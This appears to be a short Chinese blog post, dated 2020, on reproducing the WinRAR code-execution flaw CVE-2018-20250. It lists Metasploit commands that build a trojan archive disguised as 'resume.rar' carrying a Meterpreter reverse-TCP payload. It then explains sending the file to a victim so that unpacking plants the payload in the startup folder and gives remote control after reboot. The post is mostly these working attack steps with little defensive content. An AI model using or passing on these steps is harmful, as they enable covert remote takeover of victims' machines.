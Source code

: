 ```yaml
---
title: CVE-2018-20250(WinRAR代码执行)漏洞复现
tags: 
- CVE
- 漏洞
categories:
- 技术分享
top_img: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=500
cover: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=800
date: 2020-03-26 22:09:00
---
```


# 生成winrar木马
```
use exploit/windows/fileformat/winrar_ace

SET FILENAME resume.rar  # 木马文件名称
SET FILE_LIST /home/files.txt # 其他压缩文件目录文件
set PAYLOAD [PAYLOAD]. windows/meterpreter/reverse_tcp by default.  # 设置payload, 默认是windows/meterpreter/reverse_tcp

# 设置payload参数
... 

exploit # 生成木马文件在~/.msf4/local/目录下面.
```

# 利用

生成的压缩文件发送给目标, 目标解压rar文件,rar文件会将payload放在启动目录里面, 目标重启机器之后即可进行控制

